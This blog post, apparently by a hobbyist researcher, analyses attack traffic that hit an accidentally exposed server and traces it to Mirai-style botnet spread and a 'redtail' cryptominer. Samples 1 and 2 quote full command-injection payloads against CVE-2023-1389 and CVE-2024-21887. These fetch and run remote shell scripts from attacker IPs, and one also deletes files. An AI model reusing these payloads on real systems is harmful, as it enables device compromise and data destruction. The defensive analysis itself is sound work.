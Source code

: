 ```yaml
---
title: "Adventures and Accidental Honeypots in Network Infrastructure: Unravelling Internet Shenanigans"
date: "2024-05-16"
categories: 
  - "binary-analysis"
  - "network-forensics"
author: "jstester007"
---
```


![welcome](images/welcome.gif "welcome")

Hello World! So, I've been tinkering with network stuff lately, trying to set up some infrastructure.Turns out that in the process, I made a rookie mistake and left a few ports open to the internet! A few months down the line I took a look and to no one’s surprise my server had been bombarded with all sorts of requests. It was receiving a steady stream of traffic, but not the good kind…think of it more as a steady dose of “internet radiation”. Without realising it I had accidentally turned my server into a honeypot.

So, naturally curious I started digging into my server logs and what I found was equal parts fascinating and alarming. Let's just say there's a lot of shady stuff going on out there, from random bots on the site, directory traversal with known path (/.git/config wink wink), to common network appliance enumeration. You name it, they were trying it.

But here's where things get interesting: Among all the noise, there are some requests that stand out. Like, seriously weird stuff. It's like people are trying to target anything and everything they can get their hands on.

**Sample 0:**

![image11](images/image11.png "image11")

And sometimes they are nice enough to actually tell you who they are 🙂

**Sample 1:**

![image12](images/image12.png "image12")

From the looks of this particular request it’s already got some bash looking code in the payload. Let’s convert the URL encoding to make it more readable.

> _/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(rm -rf \*; cd /tmp; wget http://94.156.79.129/tenda.sh; chmod 777 tenda.sh; ./tenda.sh)_

This resembles a command injection attack on OpenWRT routers running LuCI web interface (/cgi-bin/luci/). After a bit of googling, this actually targets routers vulnerable to CVE-2023-1389 as an initial step to breach the perimeter. Then proceed to download another bash script payload (tenda.sh), set it up and execute the script.

Unfortunately, at the time of investigation, the hosted script is no longer available. But fear not, Google to the rescue! It looks like someone has already uploaded the script to any.run. This gives us an opportunity to dig deeper into what the attack is capable of.

###### ![image9](images/image9.png "image9")_Content of tenda.sh script._

###### ![image10](images/image10.png "image10")redtail binary packed with the late version of UPX 3.94. (3.94 released in 12th May 2017)

Upon initial inspection, it looks like a script that contacts the C2 server and downloads then executes the payloads in various CPU architectures. Readers with a keen eye may have already spotted that this behaviour is highly similar to the propagation of the infamous Mirai botnet.

Hexdump functionality on any.run allows us to inspect the payload binary file, which gives us some hints to unpack the executable with UPX. Let’s grab the binary file and dissect it further locally (do this at your own risk, it is highly recommended to deal with malware in an isolated environment).

###### ![image7](images/image7.png "image7")_UPX unpacking the binary like a charm._

###### ![image6](images/image6.png "image6")_Successfully using UPX to unpack the binary. Section headers are also restored._

###### ![image16](images/image16.png "image16")_Strings from the mips binary with references to further propagation of Mirai Botnet._

###### ![image14](images/image14.png "image14")_Strings from the mips binary with references to further propagation of Mirai Botnet._

Luckily there are no anti-unpacking measures in place for the binary, and UPX has worked flawlessly to recover the original binary executable with all the section headers intact. Armed with the new information from the unpacked binary, it seems to be leveraging SSDP multicast packets to further identify devices on the network using DIAL protocol. The XML soap request seems to contain payload for further exploitation on vulnerable Huawei routers (CVE-2017-17215), which confirms the malware is attributed to Mirai botnet propagation.

**Sample 2:** 

### ![image5](images/image5.png "image5")

> _/api/v1/totp/user-backup-code/../../license/keys-status/;curl http://94.156.79.60/iv.sh | sh || wget -O- http://94.156.79.60/iv.sh | sh;_

Next up is this specimen. This request again resembles a command injection attack. However, this time it’s targeting the Ivanti Connect Secure web component vulnerable to CVE-2024-21887(/api/v1/totp/user-backup-code/), gaining a foothold and then downloading and executing the iv.sh script by piping it to sh(shell command interpreter).

Again, the hosted script was no longer available at the time of investigation. Fortunately, thanks to the amazing cyber community, someone has also uploaded the sample onto any.run for further analysis.

###### ![image4](images/image4.png "image4")_Content of iv.sh script_

###### ![image1 1](images/image1-1.png "image1 1")_redtail binary packed with the late version of UPX 4.23. Suggesting that the payload was generated fairly recently (4.2.3 released on 27th March 2024)_

###### ![image15](images/image15.png "image15")![image13](images/image13.png "image13")

###### ![image17 1](images/image17-1.png "image17 1")![image2](images/image2.png "image2")_Strings from the redtail binary with loads of reference to crypto mining operations_

Running this script will again contact the C2 server, downloading and executing a version of binary payload based on the CPU architecture of the compromised device. The name of the binary “redtail” might have given away the type of malware: _Cryptominers!_

Inspecting the strings after unpacking the binary also confirms this theory.

So, what have we learned? There is a lot of noise around the dangers of ports open to the internet when we are talking about cyber security. For some who have yet to open a port(s) and watch what happens this might seem a bit dramatic. However, your exposed services are constantly being targeted by all kinds of attacks! Remediating this issue is simple: place the web service behind some form of proxy or firewall, whether that be at the host, application or cloud level. I like Cloudflare proxy, and I ensure to whitelist the exposed ports to Cloudflare listed proxies IP addresses. Fun fact: you only need to do one of the 15 ranges listed on their website and it will work.

Until next time! Stay safe out there ;)

## ![x17K5U4](images/x17K5U4.gif "x17K5U4")

 

But also, here’s a list of more trivial ones that were picked up:

\[table id=5 /\]

## References:

[https://openwrt.org/docs/guide-user/luci/start](https://openwrt.org/docs/guide-user/luci/start)

[https://www.greynoise.io/blog/active-exploitation-attempts-cve-2023-1389-against-tp-link-archer-gigabit-internet-routers](https://www.greynoise.io/blog/active-exploitation-attempts-cve-2023-1389-against-tp-link-archer-gigabit-internet-routers)

[https://www.zerodayinitiative.com/blog/2023/4/21/tp-link-wan-side-vulnerability-cve-2023-1389-added-to-the-mirai-botnet-arsenal](https://www.zerodayinitiative.com/blog/2023/4/21/tp-link-wan-side-vulnerability-cve-2023-1389-added-to-the-mirai-botnet-arsenal)

[https://answers.microsoft.com/en-us/windows/forum/all/ssdp-messages/ba8f36d0-6b4a-4735-84f9-db25e273c71f](https://answers.microsoft.com/en-us/windows/forum/all/ssdp-messages/ba8f36d0-6b4a-4735-84f9-db25e273c71f)

[https://www.exploit-db.com/exploits/43414](https://www.exploit-db.com/exploits/43414)

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-21887](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-21887)

[https://developers.cloudflare.com/fundamentals/concepts/cloudflare-ip-addresses/](https://developers.cloudflare.com/fundamentals/concepts/cloudflare-ip-addresses/)
